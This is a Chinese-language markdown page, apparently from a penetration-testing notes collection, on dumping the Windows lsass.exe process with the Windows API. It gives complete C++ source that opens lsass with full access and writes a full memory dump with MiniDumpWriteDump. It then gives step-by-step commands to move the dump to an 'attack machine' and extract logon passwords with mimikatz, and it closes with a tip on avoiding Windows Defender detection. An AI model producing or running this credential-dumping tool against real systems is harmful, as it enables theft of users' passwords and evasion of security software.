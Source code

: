 ```yaml
---
title: "利用windows api dump进程"
id: zhfly3461
---
```


# 利用windows api dump进程

## c++源代码

```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {

DWORD lsassPID = 0;

HANDLE lsassHandle = NULL;

HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

PROCESSENTRY32 processEntry = {};

processEntry.dwSize = sizeof(PROCESSENTRY32);

LPCWSTR processName = L"";

```
if (Process32First(snapshot, &amp;processEntry)) {
    while (_wcsicmp(processName, L"lsass.exe") != 0) {
        Process32Next(snapshot, &amp;processEntry);
        processName = processEntry.szExeFile;
        lsassPID = processEntry.th32ProcessID;
    }
    wcout &lt;&lt; "[+] Got lsass.exe PID: " &lt;&lt; lsassPID &lt;&lt; endl;
}

lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

if (isDumped) {
    cout &lt;&lt; "[+] lsass dumped successfully!" &lt;&lt; endl;
}

return 0; 
``` `}` 
```

https://github.com/ianxtianxt/windows-api-dump/

## 执行演示

### 执行CreateMiniDump.exe（上面的编译文件）或编译自己的二进制文件

### Lsass.dmp被转储到工作目录

### 让lsass.dmp离线到你的攻击机器上

### 打开mimikatz并加载到转储文件中

### 储存密码

.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords

![image](../img/7e6de70eadfedd6d11cfa380900367ec.png)

![image](../img/af4ec2eb7a843161cd07d46998c66b3e.png)

可以在mimikatz中离线读取

![image](../img/92b8285b4a0a170e804694b312fbde86.png)

这里有一个pdocdump可以执行相同的操作，并且不会被windows defender标记。